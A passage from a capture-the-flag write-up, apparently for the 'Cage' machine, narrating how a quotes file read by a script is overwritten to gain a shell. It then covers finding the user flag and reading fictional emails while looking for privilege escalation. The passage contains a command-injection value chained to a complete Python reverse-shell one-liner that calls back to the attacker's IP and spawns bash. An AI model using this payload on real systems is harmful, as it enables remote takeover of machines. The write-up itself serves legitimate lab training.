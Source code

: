 Since the `spread_the_quotes.py` actually calls `quotes` we may be able to use this to craft our reverse shell.  
I used `vim` to open up the quotes file and then used the keybindings of `%d` to remove all content.  
Once you have added your reverse shell you will just need to sit up your netcat listern on your local computer and wait for the call to be made.  

Reverse Shell:
```
"hello" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Your IP Address>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

**SUCCESS!!!**  

{{< figure src="/images/cage/listener.png">}}
How about we see what kind of files there are and what is in them.  
There is a file called `Super_Duper_Checklist` and when we open it and look at the very last line it seems that we are presented what looks to be our user flag.  
{{< figure src="/images/cage/userFlag.png">}}
<br>

## Getting Root
---
Now that we have found out user flage we will need to figure out how we we can escalate the privilege ouf the cage user to a root user.  
After looking aroud some I was able to find three emails where a conversation had taken place between Sean, Cage, & Weston.  

- email_1
    ```bash
    From - SeanArcher@BigManAgents.com
    To - Cage@nationaltreasure.com
    
    Hey Cage!
    
    There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
    planning stages at the moment. I've put a good word in for you, if you're lucky we 
    might be able to get you a part of an angry shop keeping or something? Would you be up
    for that, the money would be good and it'd look good on your acting CV.
    
    Regards
    
    Sean Archer
    ```
- email_2
  ```bash
  From - Cage@nationaltreasure.com
    To - SeanArcher@BigManAgents.com
    
    Dear Sean
    
    We've had this discussion before Sean, I want bigger roles, I'm meant for greater things.
    Why aren't you finding roles like Batman, The Little Mermaid(I'd make a great Sebastian!),
    the new Home Alone film and why oh why Sean, tell me why Sean. Why did I not get a role in the
    new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films.
    I could of made them great... great Sean.... I think you're missing my true potential.
    
    On a much lighter note thank you for helping me set up my home server, Weston helped too, but
    not overally greatly. I gave him some smaller jobs. Whats your username on here? Root?
    
    Yours
    
    Cage
  ```
